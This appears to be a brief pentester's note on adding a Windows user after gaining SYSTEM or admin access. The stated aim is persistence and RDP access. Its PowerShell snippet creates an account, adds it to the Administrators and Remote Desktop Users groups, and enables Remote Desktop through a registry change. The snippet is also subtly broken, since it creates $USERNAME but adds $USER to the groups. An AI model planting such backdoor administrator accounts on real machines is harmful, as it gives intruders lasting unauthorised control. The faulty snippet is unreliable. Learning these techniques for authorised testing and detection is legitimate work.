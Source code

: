 # How to Quickly Add a User on Windows

* **author**:: Nathan Acks  
* **date**:: 2022-04-25

If you've got SYSTEM (or just even local admin) on a Windows box, you can quickly add a new user from your shell for persistence and/or RDP access (useful for Impacket, etc.).

```powershell
net user $USERNAME $PASSWORD /add
net localgroup Administrators $USER /add
net localgroup "Remote Desktop Users" $USER /add
reg add `
	"HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" `
	/v fDenyTSConnections /t REG_DWORD /d 0 /f
```

## Related Video

[Alice with Siddicky (Student Mentor) (YouTube)](https://www.youtube.com/watch?v=Zma6Mk5bEI8)
